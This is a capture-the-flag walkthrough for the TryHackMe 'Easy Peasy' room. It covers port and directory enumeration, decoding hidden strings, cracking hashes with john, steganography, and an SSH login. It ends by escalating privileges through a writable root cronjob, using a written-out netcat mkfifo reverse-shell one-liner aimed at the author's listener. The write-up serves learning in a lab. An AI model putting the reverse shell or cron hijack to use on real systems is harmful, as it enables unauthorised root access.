 # Easy Peasy Writeup

Challenge available here: https://tryhackme.com/room/easypeasyctf

## TASK 1 [Enumeration with Nmap]
We'll start our enumeration process by running an nmap scan. However, I will actually be using rustscan, as it has a few extra performance bells and whistles that I prefer. So, we'll run this command:  
rustscan -a 10.10.153.96 -- -sC -sV -oA 10.10.153.96 -v -A  
with this command, we get these results:

PORT      STATE SERVICE REASON  VERSION  
80/tcp    open  http    syn-ack nginx 1.16.1  
| http-methods:   
|_  Supported Methods: GET HEAD  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: nginx/1.16.1  
|_http-title: Welcome to nginx!  
6498/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz  
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=  
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D  
65524/tcp open  http    syn-ack Apache httpd 2.4.43 ((Ubuntu))  
| http-methods:   
|_  Supported Methods: OPTIONS HEAD GET POST  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: Apache/2.4.43 (Ubuntu)  
|_http-title: Apache2 Debian Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

How many ports are open? [3]

What is the version of nginx? [1.16.1]

What is running on the highest port? [Apache]

## TASK 2 [Compromising the Machine]
Before continuing, lets download the easypeasy.txt file provided to us, as it may be useful. Upon opening it, we see its a wordlist of passwords! I'm sure we'll need this later. Now continuing with the excersize...
Since we see an obvious http server on the machine, we can run gobuster to scan for any directories that may be hidden on the server. We'll do that with this command: gobuster dir -u http://10.10.153.96/ -w /usr/share/wordlists/dirb/common.txt -o dirs.log
Where dir indicates directory mode, -u [url] -w [wordlist] -o [outputfile]
with this scan, we find two files and a directory:
/hidden               (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/]
/index.html           (Status: 200) [Size: 612]                                  
/robots.txt           (Status: 200) [Size: 43] 
The homepage is just a welcome screen indicating a successful server installation. Obviously, there is going to be more to this box than that.
First, lets check out the robots.txt file and see if there's anything off about it.
User-Agent:*
Disallow:/
Robots Not Allowed

A fairly normal robots.txt file... lets check that directory. /hidden gives us this picture:
![lost-places-1928727_960_720](https://user-images.githubusercontent.com/93058891/152861022-0d899765-34ee-44ef-be5f-293a3b6dad85.jpg)
However, I'm going to ignore the picture for now asnd instead run another gobuster scan on the /hidden directory with this command: 
gobuster dir -u http://10.10.153.96/hidden -w /usr/share/wordlists/dirb/common.txt -o dirsh.log 
results find two items:
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/whatever/]

Visiting this directory gives us this image:
![norway-772991_960_720](https://user-images.githubusercontent.com/93058891/152862426-d37fc980-24d8-4207-bb45-77076e5ccf27.jpg)
But worse, the title text tells us "dead end". I guess we'll investigate these pictures now. We'll start by simply inspecting the source code of the pages. The first looks normal, but on the second one, we find this...

<p hidden="">ZmxhZ3tmMXJzN19mbDRnfQ==</p>

Let's use Cyberchef to decode it. Putting the text inside the HTML into Cyberchef gives us our first flag!

Let's now move on to the other http server on the machine. To do this, just add :65524 to the end of the IP in the URL. The homepage of the site is an Apache default page. Let's run another gobuster scan on this server like this, with the port in the url: 

gobuster dir -u http://10.10.153.96:65524/ -w /usr/share/wordlists/dirb/common.txt -o dirs6.log

Nothing of note other than a robots.txt file. This one looks a little different though:

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions

That second User-Agent looks like a hash. Trying the usual sites doesn't seem to yield a result, though. With enough research, we are able to find a site that cracks it. The result is the second flag! Now if we want to find the third flag, we can just inspect the source of the page on the 65524 port to find it.

The exercise hints at a hidden directory but gobuster failed to find anything. So let's inspect the source code. In the source, we find this line: 
<p hidden>its encoded with ba....:REDACTED</p>

This looks like an encrypting algorithm. Using the hint provided by the code, we eventually find the directory. Visiting the directory takes us to this screen:
![matrix-3109795_960_720](https://user-images.githubusercontent.com/93058891/154327480-ba5d1ebb-4f6a-4ba8-a836-dbefcdd7b01b.jpg)  
Being just another image, we'll inspect the source code. In it, we find this interesting line:    
<p>9[REDACTED]1</p>  
Using Cyberchef, we determine that this is likely a SHA-256 hash. We'll bruteforce it with the easypeasy.txt file. We'll use this command:     
   
john --wordlist=easypeasy.txt --format=gost hash.txt
  
The end result provides us with a password!  
With the password, we then look through the directory to find a .jpg file. We'll crack it using steghide. Upon Cracking, we find a secrettext.txt file. lets open that. The file contains a username and a binary encoded password. Let's decode it! 
Now with the username and password in hand, lets login with ssh:    
ssh -p 6498 boring@10.10.153.96    
Now inside the box, we find the user.txt file in the home directory. Something seems wrong with it though...  
User Flag But It Seems Wrong Like It's Rotated Or Something  
synt{REDACTED}  
We'll use a Caesar Cipher to crack the code. Upon cracking, we get the flag!  
Now all thats left is the root flag. First, I'll check sudo -l:  
Sorry, user boring may not run sudo on kral4-PC.  
Darn, thought I had something there. Looking at the tryhackme challenge page, it says the box has a vulnerable cronjob. So let's run:    
cat /etc/crontab   
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
  
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh  

I think we found it. Let's check if it's writeable. We go to the www directory and find:  
boring@kral4-PC:/var/www$ ls -la  
total 16  
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .  
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..  
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html  
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh  

It is! This means we can use it to spawn a root shell using netcat. We'll edit the fie with this command:  

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.92.60 4445 >/tmp/f" >> /var/www/.mysecretcronjob.sh  

Now on our own machine we type:  
nc -lvnp 4445  
This should give us a root shell. Once we're in, all we need to do is run:  
cat /root/.root.txt  
And we get the flag!





























